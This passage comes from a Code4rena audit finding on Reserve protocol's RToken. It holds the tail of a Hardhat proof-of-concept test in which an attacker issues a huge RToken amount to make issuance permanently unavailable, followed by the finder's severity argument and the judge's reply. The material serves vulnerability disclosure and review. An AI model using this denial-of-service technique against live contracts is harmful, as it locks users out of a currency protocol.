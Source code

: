 >       await basketHandler.connect(owner).refreshBasket()
> 
>       // Attacker issues 2 ** 192, or a multiple of 2 ** 192 RTokens
>       // This will cause allVestAt to be very high, permanent DoS
>       const tx = await rToken.connect(addr1)['issue(uint256)'](issueAmount)
>       const receipt = await tx.wait()
>       console.log(receipt.events[0].args)
>   
>       await token0.connect(addr2).approve(rToken.address, bn('10e18'))
>       const tx2 = await rToken.connect(addr2)['issue(uint256)'](bn('10e18'))
>       const receipt2 = await tx2.wait()
>       console.log(receipt2.events[0].args)
> 
>       // one eternity later...
>       await advanceTime('123456789123456789')
>       // and still not ready
>       await expect(rToken.connect(addr2).vest(addr2.address, 1))
>         .to.be.revertedWith("issuance not ready")
>     })
> ```
> 
> Additionally, I still believe this issue should be considered High risk as:
> 
> 1. Disabling of critical function of the protocol
> 2. Attack is very simple to exploit, with no cost to the attacker - Low complexity with High likelihood
> 3. Permanent disabling of RToken issuance means that the **RToken can no longer be used** so all funds must be moved out, this will entail:
> - Redeeming all existing RTokens, which will take a reasonable amount of time depending on redemption battery parameters
> - Unstaking all stRSR which will take a reasonable amount of time depending on unstaking delay
> 4. Gas costs for all the above redeeming and unstaking will be in the thousands for a RToken with reasonable market cap. 
> 5. RToken is a stable currency which means that it would be used in DeFi protocols. In the case of Lending/Borrowing, it would take even longer for RToken to be redeemed. There may also be loss of funds as a long wait time to redeem RTokens means that the RToken will trade at a discount in secondary markets - this can cause RToken-collateralized loans to be underwater.
> 
> There is no **direct** loss of funds but I'd argue the impact is vast due to RToken being used as a currency.

**[0xean (judge) commented](https://github.com/code-423n4/2023-01-reserve-findings/issues/320#issuecomment-1420866210):**
 > Thanks for the response.  
> 
> > There is no direct loss of funds but I'd argue the impact is vast due to RToken being used as a currency.
> 
> If there is no direct loss of funds, how can this issue be High per the C4 criteria, not your own opinion?
> 
> I will ask @tbrent to take another look at your POC and do the same as well. 
